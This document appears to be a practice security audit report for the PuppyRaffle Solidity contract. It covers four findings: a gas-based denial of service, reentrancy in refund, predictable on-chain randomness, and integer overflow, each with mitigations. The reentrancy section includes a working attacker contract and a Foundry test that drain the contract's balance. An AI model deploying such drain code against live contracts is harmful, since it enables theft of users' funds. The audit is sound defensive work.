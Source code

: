 ### [M-#] Looping Through Array For Checking Duplicates Leads To DOS Attack, Which Causes Rise In Gas For Later Participants. 

**Description:** At `PuffyRaffle:enterRaffle` checks for duplicates of players address.
```javascript
@>      // Check for duplicates
        // @audit DOS
        for (uint256 i = 0; i < players.length - 1; i++) {
            for (uint256 j = i + 1; j < players.length; j++) {
                require(players[i] != players[j], "PuppyRaffle: Duplicate player");
            }
        }

``` 
As the `PuffyRaffle:players` array gets largers the cost of gas will be raised as more iterration will be done on reading state varibale s `players` array. This leads to that participants who enter first will pay less gas than who enters later this will create discouraegment amount the users to use the protocol and there will be rush to use the protocol first

**Impact:**  The more players enter the more gas price rises. Which Creates Discouragement Amount The User. And Will Create A Rush To Join The Protocol.

**Proof of Concept:**
Check Out The Test Function of `PuffyRaffleTest.t.sol:: testDosAttack`.

<details>
<summary>
    POC
</summary>

```javascript
        function testDosAttack() public{
        vm.txGasPrice(1);

        uint256 playersNumbers = 100;

        address [] memory players = new address[](playersNumbers);

        // Dummy first array of 100
        for(uint256 i =0; i< playersNumbers; i++){
            players[i] = address(i);

        }

       uint256 gasStart1 = gasleft();

        puppyRaffle.enterRaffle{value: entranceFee * playersNumbers}(players);

        uint256 gasEnd1 = gasleft();
        
        // gas used For First 100 plyaers enetrance 
        uint256 gasUsed1 = gasStart1 - gasEnd1;


        address [] memory players2 = new address[](playersNumbers);

        for(uint256 i =0; i< playersNumbers; i++){
            players2[i] = address(i+playersNumbers);

        }

        uint256 gasStart2 = gasleft();

        puppyRaffle.enterRaffle{value: entranceFee * playersNumbers}(players2);

        uint256 gasEnd2 = gasleft();

        // gas used For Second 100 plyaers enetrance 
        uint256 gasUsed2 = gasStart2 - gasEnd2;
        console.log("Gas Used For First 100 Players enterance", gasUsed1);
        console.log("Gas Used For Second 100 Players enterance", gasUsed2);


        assert(gasUsed2> gasUsed1);

    }

```

</details>

run the test 
```
forge test --match-test testDosAttack
```

**Recommended Mitigation:** There Are Few Recommended Mitigations.
1. Consider Adding Duplicate Address. As user Can Create Multiple Address From Wallet Add them To The Array Which Also   Will be Diffrent Addres Address But Created By Same User.
2. Use Players Id Which Provide Every single A id And It Maps To A Mapping And Check that Mapping.



### [H-1] Upadting State Variable After Low Level Call Leads To ReentracyAttack ,Means All The Fund Can Be Stealed.

**Description:** The `PuppyRaffle::refund` function updates state variable `PuppfyRaffle::players` array sendeing sending value to the caller.

```javascript
@>  payable(msg.sender).sendValue(entranceFee);

    players[playerIndex] = address(0);
```

Which leads to `ReenteracyAttack`. Through this attack an attacker cann again again `PuppyRaffle::refund` function untill the contract balance reaches to zero which is impacts massive loss. 

**Impact:** The Funds Stored On Contract Are Not Secure. Can Be Taken By A Single Entity. 

**Proof of Concept:**
The May Create Contract With The Initialiazation of Victim i.e(`PuppyRaffle`) Contract. And Set Up A Fallback Or Receive Function As Low Level Call Fall Into These Two Fnction We Can Again Call The Targeted Function Of The Victim i.e(`PuppyRaffle`) Contract  Again Again Until The Attacker Conditon Meets (Notes : If A Contract Call A Low Level Fucntion Call Of A Another Contract The Low Level Call First Return Back to the Contract That Has Called The Low Level Call)

Below The Code DemosTration The Full Scecenrio

<details>
<summary>
Attacker Contract
</summary>

```javascript
contract ReentraceyAttackOnPuppyRaffle {

    PuppyRaffle puppyRafle;

    uint256 attackerIndex;

    uint256 enteranceFee;

    constructor(address _puppyRaffle, uint256 _entranceFee){
        puppyRafle = PuppyRaffle(_puppyRaffle);
        enteranceFee = _entranceFee;
    }

    function atttack() external payable{
        address[] memory attackers = new address[](1);
        attackers[0] = address(this);
        puppyRafle.enterRaffle{value:enteranceFee}(attackers);

        attackerIndex = puppyRafle.getActivePlayerIndex(address(this));

        puppyRafle.refund(attackerIndex);
    }

    function _steal() internal {
        if(address(puppyRafle).balance >= enteranceFee){
            puppyRafle.refund(attackerIndex);
        }
    }

    fallback() external payable {
        _steal();
    }

    receive() external payable {
        _steal();
    }
}


```
</details>
You can the Below Test On Foundry

```
forge test --match-test testreentractyAttckTest

```
<details>
<summary>
Test Case Code 
</summary>

```javascript
    function testreentractyAttckTest() public{
        address[] memory players = new address[](4);
        players[0] = playerOne;
        players[1] = playerTwo;
        players[2] = playerThree;
        players[3] = playerFour;
        puppyRaffle.enterRaffle{value: entranceFee * 4}(players);

        uint256 startingPuffyRaffleBalance = address(puppyRaffle).balance;

        address attacker = makeAddr("attacker");

        vm.deal(attacker, 2 ether);

        ReentraceyAttackOnPuppyRaffle  reeentraceAttacker = new ReentraceyAttackOnPuppyRaffle(address(puppyRaffle),entranceFee);

        uint256 startingAttackerContractBalance = address(reeentraceAttacker).balance;

        // attakce

        vm.prank(attacker);
        reeentraceAttacker.atttack{value:entranceFee}();

        uint256 endingBalanceOfAttackerContract = address(reeentraceAttacker).balance;
        uint256 endingBalanceOfpuppyContract = address(puppyRaffle).balance;

        console.log("Attacker Balance Before Attack", startingAttackerContractBalance);

        console.log("Puupyy Balance Before Attack", startingPuffyRaffleBalance);

        console.log("Ending Blance Of Attaker Contarct",endingBalanceOfAttackerContract);
        console.log("Ending Blance Of Puppy Contarct",endingBalanceOfpuppyContract);

        assert(address(puppyRaffle).balance==0);

    }
```
</details>



**Recommended Mitigation:** There Are Recommended Few Mitigation On This Specific Atack Vector You Choose As Per Requiements

1. Update State Variable Before Low Level Call.
```diff
+   players[playerIndex] = address(0);
    payable(msg.sender).sendValue(entranceFee);  
```
```diff
    payable(msg.sender).sendValue(entranceFee);
-   players[playerIndex] = address(0);
```

2. Or Use A nonReentrant Modifier From Openzeppelin.

<details>
    <summary>
        Refactored refund Function With The Modifier
    </summary>

```javascript
    function refund(uint256 playerIndex) nonReentrant public {
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

        payable(msg.sender).sendValue(entranceFee);

        players[playerIndex] = address(0);
        emit RaffleRefunded(playerAddress);
    }
```
</details>

Find More About `ReentrancyGuard` From  <a href = "https://docs.openzeppelin.com/contracts/4.x/api/security#ReentrancyGuard">Openzeppelin</a>





### [H-#] Generating Random Random Number On Chain Is Predictable, Leads To Successfully Guess Winner.

**Description:** At The `PuppyRaffle::selectWinner` function selecting wiiner index using on cahin random winner is highly vunrable `uint256 winnerIndex =int256(keccak256(abi.encodePacked(msg.sender, block.timestamp, block.difficulty))) % players.length;`. Here `block.timestamp` is adjsutable by the miner and `block.difficulty` is not a tru difficulty it come from previous block which is open to miner. See more details on <a href="https://eips.ethereum.org/EIPS/eip-4399">`EIP-4339`</a> at security sections.



**Impact:** Winner Can Be Predicted & Made By Miners Choice.


**Recommended Mitigation:** Generating Random Number On-Chain Is Not Recommended. User One Chain Number Generation
Services of Chainlink Like <a href="https://docs.chain.link/vrf">`Chainlink VRF`</a> is Recommended.



### [M-#] Without Checks Arithmatic Opeartions In Sloidity Before Version 0.8.0 Leads To Oveflow/UnderFlow Intergers, Has Impact On The Value.

**Description:** At The `PuppyRaffle::selectWinner` Function There Are  Some Arithmatic Opeartions Have Been Done.

```javascript
@>      uint256 prizePool = (totalAmountCollected * 80) / 100;
        uint256 fee = (totalAmountCollected * 20) / 100;
        totalFees = totalFees + uint64(fee);
```
Above The Operation Result Must Have Checks After The Operations. Because The Contract Has Been Written In Solidity Version 0.7.6 And In That Version Solidity Does Not Chekcs For OverFlowAnd UnderFlow. From The Solidity Version 0.8.0 
It Checks For OverFlow And UnderFlow.


**Impact:** Unexpected/Arbitary Result.


**Proof of Concept:** Below The Is A Contract Nemed `Oveflow` in The `PuppuyRaffle.t.sol` File And Also There Is A 
Test Case Named `testOveFlow` You Can Run The Test Fucntion See The Output In The Console From The Command Line

type and hit enter
```
forge test --match-test testOveFlow -vvv

```

<details>
<summary>Contract  Overflow</summary>

```javascript
contract OverFlow{
    uint8 public amount;

    function increment(uint8 _number) public{
        amount = amount + _number;
    }
}
```
</details>

<details>

<summary>OverFlowTest</summary>

```javascript
    function testOveFlow () public {

        OverFlow overFlow = new OverFlow();

        overFlow.increment(255);
        console.log("Highest Value in Uint8",overFlow.amount());
        assert(overFlow.amount()==255);

        // Now If We try  to Add More One In The Amount Then it Will Set To zero 
        // Like 255+ 1 =0; as uint8 has 2^8-1 = 255 which highest value in iteger it can store 

         overFlow.increment(1);
        console.log("Overflown After Addition Value in Uint8",overFlow.amount());
        assert(overFlow.amount()==0);


    }
```
</details>



**Recommended Mitigation:** There Are Few Mitigation Steps That Van Be Taken.
1. Check For Expected Value After The Arithmatic Opeartion.
2. Update The Version Of The Solidity To 0.8.0 Or More.
3. Use Libray From <a href ="https://docs.openzeppelin.com/contracts/4.x/utilities#math">`Openzeppelin Math Libray`</a>  For Arithmatic Operation.